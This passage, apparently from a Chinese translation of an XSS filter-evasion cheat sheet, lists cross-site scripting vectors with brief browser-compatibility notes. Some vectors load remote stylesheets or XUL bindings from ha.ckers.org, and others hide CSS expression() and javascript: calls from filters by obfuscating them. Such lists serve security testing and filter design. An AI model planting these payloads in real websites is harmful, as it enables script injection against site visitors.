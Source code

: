 它仅仅可以工作在 Opera 8.0 (no longer in 9.x) ，但是是非常的狡猾。 Opera 8.0 (no longer in 9.x) 。根据RFC2616规定，设置一个连接头不是 HTTP1.1 规定的一部分，但是很多浏览器仍然允许它（例如Firefox and Opera）。这个技巧是我们可以设置一个http头（与常规http头没有什么不同，只是 Link:[http://ha.ckers.org/xss.css](http://ha.ckers.org/xss.css); REL=stylesheet）。这样带有xss代码的远程向量将运行javascript。他并不被支持在 FireFox。

```
<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">

```

* * *

远程样式表4
------

它是仅仅工作在 Gecko 渲染引擎。并且需要绑定一个 XUL文件在页面。令人讽刺的是Netscape认为Gecko是更加安全的，因此绝大多是网站会受到这个攻击。

```
<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>

```

* * *

分隔javascript在STYLE标签
--------------------

这个xss在ie浏览器中会造成无线循环

```
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

```

* * *

STYLE属性中使用注释去分隔表达式
------------------

提出被 Roman Ivanov

```
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">

```

* * *

IMG样式的表达式
---------

这是上面xss向量的混合体。但是它是展示了STYLE标签被分隔有多困难。同样它也会在ie下造成循环弹窗。

```
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>

```

* * *
